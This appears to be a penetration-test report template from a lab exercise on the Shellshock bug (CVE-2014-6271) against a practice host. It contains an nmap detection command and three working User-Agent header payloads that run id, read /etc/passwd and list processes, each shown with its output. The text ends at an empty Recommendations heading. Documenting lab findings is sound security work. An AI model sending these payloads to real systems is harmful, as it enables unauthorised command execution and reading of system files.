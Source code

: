 ### 📋 **Professional Report Template:**

```markdown
# Shellshock Vulnerability Assessment Report

## Executive Summary
Critical Shellshock vulnerability (CVE-2014-6271) identified in target web application, allowing remote code execution without authentication.

## Target Information
- **Target:** demo.ine.local (192.88.83.3)
- **Assessment Date:** July 12, 2024
- **Vulnerability:** CVE-2014-6271 (Shellshock)
- **CVSS Score:** 10.0 (Critical)

## Vulnerability Details

### Discovery Method
```bash
# Automated detection using Nmap NSE
nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" demo.ine.local

# Result: VULNERABLE (Exploitable) confirmed
```

### Exploitation Evidence
**Injection Point:** User-Agent HTTP header in /gettime.cgi request
**Successful Payloads:**

1. **Identity Verification:**
   ```bash
   Payload: () { :; }; echo; echo; /bin/bash -c 'id'
   Result: uid=1(daemon) gid=1(daemon) groups=1(daemon)
   ```

2. **Sensitive File Access:**
   ```bash
   Payload: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
   Result: Complete user account enumeration successful
   ```

3. **Process Enumeration:**
   ```bash
   Payload: () { :; }; echo; echo; /bin/bash -c 'ps -ef'
   Result: Full process listing obtained, revealing system architecture
   ```

## Risk Assessment
- **Exploitability:** High (Remote, unauthenticated)
- **Impact:** Critical (Complete system compromise possible)
- **Affected Systems:** All CGI-enabled web applications using vulnerable Bash

## Recommendations
